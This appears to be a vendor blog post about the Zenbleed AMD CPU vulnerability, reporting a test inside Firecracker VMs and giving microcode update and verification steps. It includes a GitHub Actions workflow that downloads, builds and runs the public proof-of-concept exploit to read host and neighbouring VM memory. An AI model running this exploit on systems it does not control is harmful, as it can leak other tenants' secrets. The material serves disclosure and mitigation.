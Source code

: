 ```yaml
---
title: Update your AMD hosts now to mitigate the Zenbleed exploit
description: "Learn how to update the microcode on your AMD CPU to avoid the Zenbleed exploit."
tags:
- images
- packer
- qemu
- kvm
author_img: alex
image: "/images/2023-07-zenbleed/background.png"
date: "2023-07-31"
---
```


On 24th July 2023, [The Register covered a new exploit](https://www.theregister.com/2023/07/24/amd_zenbleed_bug/) for certain AMD CPUs based upon the Zen architecture. The exploit, dubbed Zenbleed, allows an attacker to read arbitrary physical memory locations on the host system. It works by allowing memory to be read after it's been set to be freed up aka "use-after-free". This is a serious vulnerability, and you should update your AMD hosts as soon as possible.

Even more dangerous was the claim by The Register that any level of VM isolation prevents the exploit from working. This is not true. We tested the exploit with a sample GitHub Action running within Firecracker.

> "If you stick any emulation layer in between, such as Qemu, then the exploit understandably fails."

We proved this to be wrong, QEMU & Firecracker (both use KVM), Docker, etc are all affected in the same way as running a malicious process directly on the host.

To test this, we ran a GitHub actions matrix build that creates many VMs running different versions of K3s. About the same time, we triggered a build which runs a Zenbleed exploit PoC written by [Tavis Ormandy](https://twitter.com/taviso), a security researcher at Google.

We found that the exploit was able to read the memory of the host system, and that the exploit was able to read the memory of other VMs running on the same host.

```yaml
name: build

on:
    pull_request:
        branches:
        - '*'
    push:
        branches:
        - master
        - main
    workflow_dispatch:

jobs:
    build:
        name: specs
        runs-on: actuated
        steps:
        - uses: actions/checkout@v1
        - name: Download exploit
          run: |
            curl -L -S -s -O https://lock.cmpxchg8b.com/files/zenbleed-v5.tar.gz
            tar -xvf zenbleed-v5.tar.gz
            sudo apt install -qy build-essential make nasm
        - name: Build exploit
          run: |
            cd zenbleed
            make
            chmod +x ./zenbleed
        - name: Run exploit for 1000 pieces of data
          run: |
            ./zenbleed/zenbleed -m 1000
```

Full details of the exploit can be found on a microsite created by the security researcher who discovered the vulnerability. The `-m 1000` flag reads 1000 pieces of memory and then exits.

[Zenbleed by Tavis Ormandy](https://lock.cmpxchg8b.com/zenbleed.html#vulnerability)

We didn't see any secrets printed out during the scan, but we did see part of a public SSH key, console output from etcd running within K3s, and instructions from containerd. So we can assume anything that was within memory within one of the other VMs on the host, or even the host itself, could be read by the exploit.

![GHA output from the zenbleed exploit](/images/2023-07-zenbleed/gha.png)
> GHA output from the zenbleed exploit

## Mitigation

AMD has already released a mitigation for the Zenbleed exploit, which requires an update to the CPU's microcode.

[Ed Vielmetti](https://www.linkedin.com/in/edwardvielmetti/), Developer Partner Manager at Equinix told us that mitigation is three-fold:

1. There is an incoming BIOS update from certain vendors that will update the microcode.
2. Updating some OSes like the Ubuntu 20.04 and 22.04 will upgrade the microcode of the CPU.
3. There is a ["chicken bit"](https://www.reddit.com/r/linux/comments/15903hr/zenbleed_a_useafterfree_in_amd_zen2_processors/) that can be enabled which prevents the exploit from working.

I probably don't need to spell this out, but a system update looks like the following, and the reboot is required:

```bash
sudo apt update -qy && \
    sudo apt upgrade -yq && \
    sudo reboot 
```

![An update to the CPU microcode is required](/images/2023-07-zenbleed/microcode.png)

For some unknown reason, both of the Equinix AMD hosts that we use internally broke after running the OS upgrade, so I had to reinstall Ubuntu 22.04 using the dashboard. If for whatever reason the machine won't come up after the microcode update, then you should reinstall the Operating System (OS) using your vendor's rescue system or out of band console, both Equinix Metal and Hetzner have an "easy button" that you can click for this. If there is still an issue after that, reach out to your vendor's support team.

New machines provisioned after this date should already contain the microcode fix or have the "chicken bit" enabled. We provisioned a new AMD Epyc server on Equinix Metal to make sure, and as expected, thanks to their hard work - it was not vulnerable.

We offer 500 USD of free credit for new Equinix Metal customers to use with actuated, and Equinix Metal have also written up their own guide on workaround here:

* [An Update On the AMD Zen 2 CPU Vulnerability](https://deploy.equinix.com/blog/an-update-on-the-amd-zen-2-cpu-vulnerability/)

## Verifying the mitigation

Since actuated VMs use Firecracker, you should run the above workflow before and after to verify the exploit was a) present and b) mitigated.

![What it looks like when the mitigation is in place](/images/2023-07-zenbleed/mitigated.png)
> Above: What it looks like when the mitigation is in place

You can also run the exploit on the host by copying and pasting the commands from the GitHub Action above.

My workstation uses a Ryzen 9 CPU, so when I ran the exploit I just saw a blocking message instead of memory regions:

```bash
$ grep "model name" /proc/cpuinfo |uniq
model name	: AMD Ryzen 9 5950X 16-Core Processor

./zenbleed -m 100
*** EMBARGOED SECURITY ISSUE --  DO NOT DISTRIBUTE! ***
ZenBleed Testcase -- taviso@google.com

NOTE: Try -h to see configuration options

Spawning 32 Threads...
Thread 0x7fd0d40e8700 running on CPU 0
Thread 0x7fd0d38e7700 running on CPU 1
...
```

You can also run the following command to print out the microcode version. This is the output from the Equinix Metal server (c3.medium) that ran an OS update on:

```bash
$ grep 'microcode' /proc/cpuinfo
microcode	: 0x830107a
```

## Wrapping up

Actuated uses [Firecracker](https://firecracker-microvm.github.io/), an open source Virtual Machine Manager (VMM) that works with Linux KVM to run isolated systems on a host. We have verified that the exploit works on Firecracker, and that the mitigation works too. So whilst VM-level isolation and an immutable filesystem is much more appropriate than a container for CI, this is an example of why we must still be vigilant and ready to respond to security vulnerabilities. 

This is an unfortunate, and serious vulnerability. It affects bare-metal, VMs and containers, which is why it's important to update your systems as soon as possible.
